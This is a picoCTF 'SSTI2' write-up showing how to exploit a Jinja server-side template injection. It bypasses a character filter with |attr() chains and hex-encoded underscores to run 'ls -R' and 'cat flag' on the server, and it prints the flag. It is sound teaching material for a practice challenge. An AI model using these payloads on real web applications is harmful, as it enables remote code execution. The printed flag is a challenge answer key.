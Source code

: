 ## SSTI2

[Link to challenge](https://play.picoctf.org/practice/challenge/488)

Write-up:

1. Taking a hint from the title, we are probably dealing with server-side template injection. 
Inputting "{{7*7}}" returns 49, which shows us code is executing.

2. This input allows us to list directories: `{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}`
<br> We get a message saying "Stop trying to break me". We need to get past the input sanitization.

3. Attempting to input all special characters in the payload helps us find out that "." and "_" chars are being filtered. 
   
4. Since we can't use dots, and __globals__ returns a dictionary-like object, we need to use __getitem__, which is an attribute of every Python object that supports item access.
`{{request.application.__globals__.__getitem__('__builtins__').__getitem__('__import__')('os').popen('ls -R').read()}}` <br>
To replace the rest of the dots, we can use **|attr()**
`{{request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('ls -R')|attr('read')()}}`

5. To replace the underscores, we can hex-encode them:
`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -R')|attr('read')()}}` <br>
This payload shows us the existence of a **flag** file.

6. `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}` <br>
Flag: picoCTF{sst1_f1lt3r_byp4ss_e964f71b}
